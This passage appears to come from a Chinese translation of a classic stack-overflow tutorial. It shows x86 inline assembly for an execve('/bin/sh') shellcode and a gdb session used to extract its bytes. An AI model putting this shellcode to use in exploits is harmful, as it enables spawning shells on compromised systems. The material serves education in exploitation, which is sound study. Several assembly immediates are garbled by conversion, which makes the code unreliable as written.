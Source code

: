 这看起来很不错了. 为了确保代码能够正常工作必须编译并执行. 但是还有一个问题. 我们的代码修改了自身, 可是多数操作系统将代码页标记为只读. 为了绕过这个限制我们 必须把要执行的代码放到堆栈或数据段中, 并且把控制转到那里. 为此应该把代码放到数 据段中的全局数组中. 我们首先需要用16进制表示的二进制代码. 先编译, 然后再用gdb 来取得二进制代码.


shellcodeasm.c

```c
void main() {
    __asm__("
        jmp 0x2a # 3 bytes
        popl %esi # 1 byte
        movl %esi,0x8(%esi) # 3 bytes
        movb x0,0x7(%esi) # 4 bytes
        movl x0,0xc(%esi) # 7 bytes
        movl xb,%eax # 5 bytes
        movl %esi,%ebx # 2 bytes
        leal 0x8(%esi),%ecx # 3 bytes
        leal 0xc(%esi),%edx # 3 bytes
        int x80 # 2 bytes
        movl x1, %eax # 5 bytes
        movl x0, %ebx # 5 bytes
        int x80 # 2 bytes
        call -0x2f # 5 bytes
        .string \"/bin/sh\" # 8 bytes
    ");
}
```

```
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it
under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 : pushl %ebp
0x8000131 : movl %esp,%ebp
0x8000133 : jmp 0x800015f
0x8000135 : popl %esi
0x8000136 : movl %esi,0x8(%esi)
0x8000139 : movb x0,0x7(%esi)
0x800013d : movl x0,0xc(%esi)
0x8000144 : movl xb,%eax
0x8000149 : movl %esi,%ebx
0x800014b : leal 0x8(%esi),%ecx
0x800014e : leal 0xc(%esi),%edx
0x8000151 : int x80
0x8000153 : movl x1,%eax
0x8000158 : movl x0,%ebx
0x800015d : int x80
0x800015f : call 0x8000135
0x8000164 : das
0x8000165 : boundl 0x6e(%ecx),%ebp
0x8000168 : das
0x8000169 : jae 0x80001d3 <__new_exitfn+55>
0x800016b : addb %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 : 0xeb
(gdb)
0x8000134 : 0x2a
(gdb)
.
.
```